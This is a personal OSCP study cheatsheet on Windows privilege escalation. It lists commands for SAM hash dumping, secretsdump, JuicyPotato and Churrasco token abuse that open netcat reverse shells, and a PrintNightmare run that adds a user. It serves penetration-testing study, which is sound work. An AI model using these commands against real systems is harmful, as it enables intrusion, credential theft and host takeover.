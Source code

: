 ```yaml
---
title: Windows Privilege Escalation
author: linatl
category: "OSCP"
date: "2021-03-13 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443
```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
> [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
> [Environment]::Is64BitProcess

If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```

###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```

###### Token Kidnapping on Windows Server 2003 / 2008 with Churrasco

```
If you are Network Service or Local Service and SeImpersonatePrivilege is Enabled, this will probably work.

> git clone https://github.com/Re4son/Churrasco
after uploading the exe:

Execute Command
> churrasco.exe -d "whoami"
Using nc.exe to start a reverse shell connection
> churrasco.exe -d "c:\Users\username\Documents\nc.exe -e cmd.exe 192.168.1.1 443"
```

###### Potato attacks
```
If both SeChangeNotifyPrivilege and SeImpersonatePrivilege are enabled

Hot Potato
https://foxglovesecurity.com/2016/01/16/hot-potato/

Rotten Potato
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato

Juicy Potato
https://github.com/ohpe/juicy-potato
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato
x86 variant:
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2

Example juicy potato:

List of CLSID's:
http://ohpe.it/juicy-potato/CLSID/

On attacker system:
> nc -nvlp 80
On target system:
First upload nc.exe & JuicyPotato.exe, and place it in current dir
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -t *
Or using a different CLSID:
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -t *
```

###### RunAs
###### Registry Tricks
###### AlwaysInstallElevated
###### Autorun
###### Port Forwarding
###### Service Permissions
###### Unquoted Path
###### DLL Hijacking


###### Schtasks
```
schtasks /query /fo LIST /v
tasklist /SVC
```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```

###### Windows (Kernel) Exploits
```
MS10-059 (SecWiki)
MS16-032 (Use the one from Empire)
MS15-051 (Secwiki)
```

###### Kernel Exploits ~ Resources
```
Seclists
https://github.com/SecWiki/windows-kernel-exploits

Empire
https://github.com/EmpireProject/Empire/tree/master/data/module_source
```
